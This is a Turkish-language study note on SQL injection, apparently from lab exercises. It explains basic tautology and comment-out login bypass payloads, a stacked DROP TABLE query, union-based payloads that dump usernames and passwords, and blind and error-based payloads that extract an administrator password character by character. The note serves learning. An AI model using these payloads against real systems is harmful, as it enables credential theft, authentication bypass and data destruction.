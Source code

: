 # SQL İnjection

# Basic SQL Injection

### Tanım
- SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    - SELECT: Hangi sütunları seçeceğimizi belirtir. * kullanılırsa, tüm sütunlar seçilir.
    - FROM: Hangi tablodan veri çekileceğini belirtir.
    - WHERE: Belirtilen koşullara uyan satırları filtreler.
    - products tablosundan (FROM products), category sütunu 'Gifts' olan (WHERE category = 'Gifts'), ve released sütunu 1 olan (AND released = 1), tüm sütunları (*) seçer.

-------------------------------------

### ' OR+1=1--
- ==> SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
    - OR 1=1 → Her zaman TRUE olur, yani bütün ürünleri seçer.
    - -- → SQL’de yorum satırı başlatır, yani AND released = 1 kısmını iptal eder.
    - Normalde yalnızca 'Gifts' kategorisindeki ve yayınlanmış ürünler döndürülmeliydi.
    - Ancak saldırgan OR 1=1 ekleyerek bütün ürünleri seçtirdi.
    - -- operatörü sayesinde sorgunun devamını etkisiz hale getirerek kontrolü ele aldı.

- ' OR 1=1; DROP TABLE products; -- ==> SELECT * FROM products WHERE category = '' OR 1=1; DROP TABLE products; --';
    - OR 1=1 → Tüm kayıtları döndürür.
    - ; → SQL'de birden fazla komutu aynı anda çalıştırmak için kullanılır.
    - DROP TABLE products → products tablosunu tamamen siler!  (Eğer Yetkisi varsa)
    - -- → Yorum satırı başlatarak kalan her şeyi etkisiz hale getirir.

-------------------------------------

### administrator'--
- ==> SELECT * FROM users WHERE username = 'administrator'--' AND password = 'sifre';
    - -- SQL'de yorum satırı başlatır, yani AND password = 'sifre' kısmı çalışmaz.
    - Eğer "administrator" kullanıcısının şifresi kontrol edilmeden giriş yapılıyorsa, Zafiyettir.

-------------------------------------

# Union-Based SQL Injection (Birlik Tabanlı SQL Enjeksiyonu)

### Tanım
- SELECT * FROM products WHERE category = 'Gifts' ...

- ==> +UNION+SELECT+NULL,NULL,NULL-- ==> ' order by 3-- --> ok

-------------------------------------

### UNION (Oracle)
- ' ORDER BY 1--
- ' UNION SELECT 'abc', 'def' FROM dual-- ==> ' order by 2-- --> ok
- ' UNION SELECT BANNER, NULL FROM v$version-- ==> versiyon öğrenme
- '+UNION+SELECT+table_name,NULL+FROM+all_tables-- 
    - ==> USERS_ABCDEF
- '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'-- 
    - ==> USERNAME_ABCDEF PASSWORD_ABCDEF
- '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--

### UNION (MySQL, MSSQL (Microsoft SQL Server), PostgreSQL, SQLite)
- ' ORDER BY 1--
- ==> ' UNION SELECT 'abc', 'def'#
- ==> ' UNION SELECT @@version, NULL#
- ==> '+UNION+SELECT+'abc','def'--
- ==> '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
- ==> '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
- ==> '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--

-------------------------------------

- ==> ' UNION SELECT table_name, NULL FROM all_tables--
- ==> '+UNION+SELECT+NULL,NULL,NULL--
- ==> '+UNION+SELECT+'abc','def'--
- ==> ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS'--
- ==> ' UNION SELECT username, password FROM users--
- ==> ' UNION SELECT NULL, username || '~' || password FROM users--

-------------------------------------

# Blind SQL injection (Kör SQL enjeksiyonu)

### Tanım
- SELECT * FROM sessions WHERE TrackingId = 'xyz123';
- SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='1'
- TrackingId=JNwDzr5zsVqhNLyC' AND '1'='1
- SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='2'
- TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a 
- TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a ==> welcome back
-  TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
- TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
- 

-------------------------------------

- ==> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
    - SELECT TrackingId → TrackingId sütunundaki değeri alır.
    - FROM TrackedUsers → TrackedUsers tablosundan veri çeker.
    - WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' → Sadece belirli bir TrackingId değerine sahip satırları döndürür.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'

    -     SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1)
        - "Administrator" kullanıcısının şifresinin ilk karakterini alır.
    - > 'm'
        - Şifrenin ilk harfinin 'm'den büyük olup olmadığını kontrol eder.
        - Eğer doğruysa, sorgu başarılı olur ve veri döner.
        - Eğer yanlışsa, sorgu başarısız olur ve veri dönmez.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'

Açıklama:

    CASE WHEN (1=2) THEN 1/0 ELSE 'a' END
        (1=2) → FALSE döner
        FALSE olursa 'a' döner.
        TRUE olsaydı 1/0 çalışarak sıfıra bölme hatası oluşturacaktı.

    (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
        Burada CASE ifadesi 'a' döndürdüğü için sorgu başarıyla çalışır ve veri dönebilir.
        Eğer (1=2) yerine (1=1) yazılsaydı, 1/0 işlemi hata oluştururdu.

Bu teknikle saldırgan şunları test edebilir:

    SQL Injection var mı?
        Hata mesajı alırsa, SQL Injection zafiyeti var demektir.
    Hata tabanlı saldırılar mümkün mü?
        Eğer hata mesajı alınabiliyorsa (1/0 sıfıra bölme hatası gibi), saldırgan hata tabanlı SQL Injection kullanabilir.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND (SELECT CASE 
        WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
        THEN 1/0 
        ELSE 'a' 
      END FROM Users)='a'

-------------------------------------